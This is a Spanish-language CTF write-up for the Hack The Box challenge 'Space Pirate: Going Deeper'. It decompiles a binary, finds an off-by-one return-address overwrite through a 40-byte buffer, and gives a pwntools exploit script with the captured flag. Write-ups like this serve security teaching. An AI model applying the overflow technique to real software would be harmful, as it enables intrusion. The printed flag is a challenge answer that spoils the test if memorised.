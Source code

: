 ```yaml
---
layout: post
title: Space Pirate Going Deeper HTB
comments: true
categories: [Pwn, Writeups, HTB]
---
```


# Overview

Este es un reto sencillo de la plataforma [Hack the Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper), comparte título con otros dos que subiré proximamente. Espero que os sirva para aprender!

![Image]({{ site.baseurl }}/images/pages/HTB-logo.png)

# Reconocimiento

Se nos da un binario con arquitectura `x86_64`, con las siguientes protecciones:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

Con *ghidra* descompilamos para analizar el código fuente:

```c
int main(void){
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Vemos que se llama a una función `admin_panel`, donde apreciamos una vulnerabilidad de tipo *Buffer Overflow*:

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char input_str [40];
  long input_num;
  
  input_num = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n",param_1,param_2,param_3);
  
  while (((input_num != 1 && (input_num != 2)) && (input_num != 3))) {
    printf(&DAT_004014e8);
    input_num = read_num();
  }
  if (input_num == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (input_num != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  
  read(0,input_str,0x39);   //Vulnerable a Buffer Overflow (40 <- 57)

  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",input_str,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Con esto, podemos tratar de buscar el offset hasta el *RIP*, para saltarnos la verificación y ejecutar directamente la línea que imprime la flag.

Ejecutamos con *gdb-peda*:

```bash
[...]
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 2

[*] Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sin embargo, no parece que estemos sobrescribiendo *RIP*, ni *RBP*:

```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b41
```

Vamos a probar con otra letra:

```bash
[...]
[*] Username: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

Y vemos que *RIP* varía un byte:

```bash
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b42
```

Por lo que tenemos un **overflow de un sólo byte**, que es más que suficiente como para llegar a donde queremos (`0x400b01`):

![Image]({{ site.baseurl }}/images/posts/2024-11-06-Space-Pirate-Going-Deeper-HTB.png)

# Explotación

Para resolver el reto sólo nos faltaría mandar una cadena de `\x01` lo suficientemente larga, para ello lo haremos mediante un script en *python* utilizando la librería *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./sp_going_deeper')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("94.237.51.112",50014)
    else:
        return process('./sp_going_deeper')

io = start()

io.sendlineafter(">>", b"1")

payload = 57 * b'\x01'

io.sendlineafter("Input:", payload)

io.interactive()
```

Lo ejecutamos en remoto y tenemos la flag!

```bash
[+] Welcome admin! The secret message is: HTB{d1g_1n51d3..u_Cry_cry_cry}
```
